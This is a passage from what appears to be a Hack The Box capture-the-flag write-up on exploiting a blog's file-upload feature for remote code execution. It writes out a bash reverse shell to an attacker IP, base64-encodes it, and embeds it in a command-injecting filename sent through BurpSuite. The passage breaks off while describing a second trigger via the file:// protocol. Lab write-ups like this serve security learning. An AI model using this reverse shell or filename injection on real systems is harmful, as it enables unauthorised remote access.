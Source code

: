 Once we login, we can access the `/dashboard/stories/add` page where we can create a new blog story. This page lets us upload a page either by local file upload and by URL upload. We can use a combination of these two functions to trigger an RCE and spawn a reverse shell.

We can hijack this form's request using BurpSuite and inject an RCE command through the `filename` field.
The forged evil filename will have the following structure:

```bash
[exyss@exyss HTB]$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.130/1234 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzAvMTIzNCAwPiYxJwo=

# The evil filename will be
gimmeaccess.jpg;`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzAvMTIzNCAwPiYxJwo= | base64 -d | bash`;
```

Once we have forged our payload, we can inject it through BurpSuite

![Inject RCE](.img/rce_injection.png)

Then, we have to repeat this process again, this time triggering the RCE through the `file://` protocol
